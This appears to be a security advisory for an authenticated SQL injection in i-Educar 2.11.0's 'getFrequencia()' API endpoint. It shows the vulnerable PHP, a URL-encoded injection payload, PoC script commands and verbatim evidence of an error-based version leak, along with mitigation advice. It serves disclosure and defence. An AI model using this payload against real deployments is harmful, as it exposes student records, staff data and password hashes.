

# Error-based SQL injection in `MatriculaController::getFrequencia()`

- **Product:** i-Educar 2.11.0 (latest release, tag `2.11.0`) (portabilis/i-educar)
- **Type / CWE:** CWE-89 Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') — https://cwe.mitre.org/data/definitions/89.html
- **Severity:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` = **8.8 High** (estimated from the vector, not an upstream score)
- **Affected version:** 2.11.0 (latest release, tag `2.11.0`)
- **Endpoint(s):** `GET /module/Api/Matricula?oper=get&resource=frequencia` — parameter(s): `id`
- **Authentication:** login required (verified with `admin`)
- **Status:** VERIFIED against a local i-Educar 2.11.0 lab (2026-09-10)

## Summary

`getFrequencia()` reads the raw `id` parameter into `$cod_matricula` and
concatenates it into `SELECT modules.frequencia_da_matricula({$cod_matricula});`.
There is no binding or cast. The PoC injects
`CAST((SELECT version()) AS INT)` inside the function-call argument; PostgreSQL
raises `invalid input syntax for type integer: "PostgreSQL 18.6 ..."` and the
version is returned in the JSON error. The statement is a `SELECT`, so nothing
is modified.

## Root cause

`ieducar/modules/Api/Views/MatriculaController.php:492`:

```php
protected function getFrequencia()
{
    $cod_matricula = $this->getRequest()->id;
    $objBanco = new clsBanco;
    $frequencia = $objBanco->unicoCampo(" SELECT modules.frequencia_da_matricula({$cod_matricula}); ");

    return ['frequencia' => $frequencia];
}
```

An `intval()`/`(int)` cast or a bound parameter would keep the argument a plain
number; instead the request value is inserted as SQL text.

## Proof of concept

1. Log in.
2. Control request:
   `GET /module/Api/Matricula?oper=get&resource=frequencia&id=3`
   → `HTTP 200 {"frequencia":null,"oper":"get","resource":"frequencia","msgs":[],"any_error_msg":false}`.
3. Injection request:
   `GET /module/Api/Matricula?oper=get&resource=frequencia&id=CAST%28%28SELECT%20version%28%29%29%20AS%20INT%29`
   → `HTTP 200` with the PostgreSQL version in the error message.
4. No cleanup required.

```bash
python3 i-explorar.py            # pick [13]
# or standalone:
python3 vulns/13-matricula-frequencia-sql-injection/poc.py --target http://127.0.0.1:8080
```

## Evidence

Raw output of the PoC run against the 2.11.0 release (`evidence/run-20260911T001733Z.log`), pasted
verbatim:

```
# i-explorar raw evidence
# started_at: 2026-09-11T00:17:33.375473+00:00
# host: -03
# target: http://127.0.0.1:8080

### control: id=3
HTTP 200

--- body ---
{"frequencia":null,"oper":"get","resource":"frequencia","msgs":[],"any_error_msg":false}
--- end body ---

### injection: id=CAST((SELECT version()) AS INT)
HTTP 200

--- body ---
{"oper":"get","resource":"frequencia","msgs":[{"msg":"Exception: SQLSTATE[22P02]: Invalid text representation: 7 ERROR:  invalid input syntax for type integer: \"PostgreSQL 17.11 on x86_64-pc-linux-musl, compiled by gcc (Alpine 15.2.0) 15.2.0, 64-bit\" (Connection: pgsql, Host: postgres, Port: 5432, Database: ieducar, SQL:  SELECT modules.frequencia_da_matricula(CAST((SELECT version()) AS INT)); )","type":"error"}],"any_error_msg":true}
--- end body ---
# finished_at: 2026-09-11T00:17:33.990947+00:00
```

## Screenshots



Caption: console capture of the PoC run — clean control response and the
injected function argument leaking the PostgreSQL version.

## Impact

An authenticated user can inject SQL expressions into the function call and
exfiltrate data through error-based or boolean subqueries:

- read any table readable by the `ieducar` database user, including student
  records, grades, staff data and password hashes;
- enumerate schema and configuration;
- trigger heavy expressions for a denial-of-service effect.

The same `class` of issue affects VULN 10 (`PessoaController::reativarPessoa`),
which uses the same API dispatcher.

## Timeline

- 2026-09-10: local reproduction against the i-explorar 2.11.0 lab (this advisory)
- not yet reported to the maintainer — no remote or external contact was made
  from this repository

## Mitigation

- Cast to int: `$cod_matricula = (int) $this->getRequest()->id;` and, where the
  method allows, use a bound parameter (`$1`).
- Audit `modules/Api/Views/MatriculaController.php` and the sibling
  `PessoaController` for other raw concatenations.
- Do not expose database error messages to clients; log them server-side only.

## References

- Upstream repository: https://github.com/portabilis/i-educar
- CWE-89: https://cwe.mitre.org/data/definitions/89.html
- This advisory (canonical URL): https://github.com/pollotherunner/i-explorar/blob/main/vulns/13-matricula-frequencia-sql-injection/README.md
